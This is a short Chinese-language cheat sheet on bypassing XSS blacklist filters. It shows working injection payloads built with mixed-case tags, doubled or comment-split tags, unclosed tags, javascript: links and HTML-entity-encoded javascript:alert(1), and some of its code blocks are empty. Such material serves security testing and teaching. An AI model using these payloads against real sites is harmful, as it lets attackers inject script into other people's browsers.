

# xss常见绕过手法

### 大小写绕过

HTML对标签大小写不敏感，可以利用大小写混用绕过
例如：<script>改为<ScRiPt>

### 双写绕过

有些情况的规则会将黑名单标签替换为空，可以利用这一点构造标签

例如：<script>改为<scr<script>ipt>

同理某些注释符在规则中也会替换为空，这时候可以利用它构造payload

例如：<script>改为<scr<!---test--->ipt>

### 开口标签

在某些特殊环境，由于html代码补全机制，可以故意不闭合标签绕过黑名单检测
例如：<script>改为<script


### 其他非黑名单标签和事件

```

```

```
 其他事件标签,onclick等
```

 
```
"><a href="javascript:alert(1)">asd</a>
```

### 编码

```
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29; 

为javascript:alert(1)的 html实体编码，
```

```
"><a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">asd</a>
```